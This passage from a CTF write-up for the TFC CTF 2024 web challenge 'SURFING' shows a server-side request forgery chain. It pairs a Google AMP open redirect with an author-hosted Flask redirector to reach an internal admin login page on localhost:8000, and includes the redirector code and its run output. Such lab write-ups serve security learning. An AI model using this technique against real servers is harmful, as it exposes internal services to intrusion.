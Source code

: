 Nice! It worked!

So, my theory for this weird behavior is maybe **Google AMP open redirect only supports HTTPS scheme**.

Ah ha! Because **the internal web application `localhost:8000` doesn't support HTTPS scheme**, and Google AMP returned HTTP status code "500 INTERNAL SERVER ERROR"!

To solve this, we can **host an HTTPS web application that redirects the server's request to `locahost:8000`**.

Here's a Flask web application that redirects incoming requests to `localhost:8000`:
```python
#!/usr/bin/env python3
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def indexRedirect():
    redirectUrl = 'http://localhost:8000/'
    return redirect(redirectUrl)

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=True)
```

Then run it:

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SURFING)-[2024.08.04|22:40:21(HKT)]
└> python3 app.py           
 * Serving Flask app 'app'
 * Debug mode: on
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://10.69.96.69:80
[...]
```

Next, send the request again:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TFC-CTF-2024/images/Pasted%20image%2020240804224240.png)

Nice! We can now reach to the challenge's internal web application at `localhost:8000`, and it respond with this HTML content:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Login</title>
</head>
<body>
    <form action="admin.php" method="get">
        <label for="username">Username:</label>
        <input type="text" id="username" name="admin" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="admin" required>
        <br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```
